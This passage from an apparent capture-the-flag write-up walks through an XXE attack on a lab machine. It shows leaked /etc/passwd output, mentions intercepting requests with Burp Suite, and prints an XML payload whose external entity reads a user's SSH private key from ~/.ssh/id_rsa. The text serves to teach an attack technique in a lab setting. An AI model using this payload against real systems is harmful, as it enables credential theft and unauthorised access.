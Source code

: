 roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false

 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
{% endhighlight %}  
 
As you can see we are visualizing the contents of the file **/etc/passwd**  

To continue we will intercept the requests with Burpsuite and then taking into account that this victim machine is running an SSH server it is very likely to find a private key of some user.  

<figure>
  <img src="{{site.baseurl}}/img/BurpDevoops.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/BurpDevoops.png" title="Intercepting request for exploiting XXE">Intercepting request for exploiting XXE</a>
  </figcaption>
</figure> 

We know we need an SSH private key in order to log in via SSH.  
Private keys are typically stored in the **/home/username/.ssh/id_rsa** file.  
To visualize the content of the user's private key *roosa*, which was identified thanks to the /etc/passwd file, we must create the following malicious file:    

{% highlight xml %}
<?xml version="1.0"?>
  <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >
  ]>
  <feed>
    <Author>Gerh</Author>
    <Subject>BinaryChaos</Subject>
    <Content>&xxe;</Content>
  </feed>
{% endhighlight %}  

After uploading the previous file, the result is as follows:

<figure>
  <img src="{{site.baseurl}}/img/Burp2Devoops.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/Burp2Devoops.png" title="Intercepting request for exploiting XXE">Intercepting request for exploiting XXE</a>
  </figcaption>
</figure> 

## How to connect ssh with private key  

Since we have copied RSA Private KEY in a text file named as “key”, then set permission 600 and try to login with the help of the following command.

